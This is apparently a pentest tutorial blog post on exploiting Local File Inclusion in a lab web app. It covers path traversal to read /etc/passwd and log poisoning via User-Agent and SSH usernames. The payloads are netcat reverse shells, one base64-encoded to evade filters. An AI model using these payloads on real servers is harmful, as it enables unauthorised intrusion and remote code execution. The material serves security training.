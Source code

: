 +++
categories = ["Pentest", "Web"]
date = "2021-02-06"
title = "Vulnerability Local File Inclusion"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

## Get the file 

If you see a web in which the URL it's something like `/?page=something.php`, we can try to exploit it.

1. First we remove the `?page=` and reload to get the path to the file in the new url.
2. Copy the path in the old url like this `/?page=/var/www/dvwa/vulerabilities/fi/something.php`.
3. If this new url loads correctly, we can exploit it by replacing every directory for `..`.
4. So we end with something like this `/?page=/../../../../../etc/passwd`.

This way we can access some local file that is in the server, but it wasn't suposed to be accessible.


## Reverse Shell - environ

Setting the burp proxy on we reload `/?page=/../../../../../proc/self/environ` we can do two things.

* Replace User-Agent field for `<?phpinfo();?>` to get the interpreter info.
* Replace for `<?passthru('nc -e /bin/sh 10.0.2.5 8888 ');?>`. In a terminal listen to that por with this command `nc -vv -l -p 8888`. Reload, and get a reverse shell on your terminal.


## Reverse Shell - auth.log

1. First we try to see if we can  get the auth.log with the url `/?page=/../../../../../var/log/auth.log`.
2. We are going to try a connection by ssh with the server and see if it gets register on the auth.log. We use any user name `ssh random@10.0.2.4`.
3. If it is the case, now we do another ssh connection but this time the username is going to be a script.
``` 
>ssh "<?passthru('nc -e /bin/sh 10.0.2.5 9999 ');?>"@10.0.2.4
```
4. To avoid the filters we are goint to encode the script using the burp proxy. We can use base64 and the script would result in something like 

``` 
>ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxMC4wLjIuNSA5OTk5'));?>"@10.0.2.4
```
5. Now in other terminal we just have to listen to the port as in the previous example `nc -vv -l -p 9999`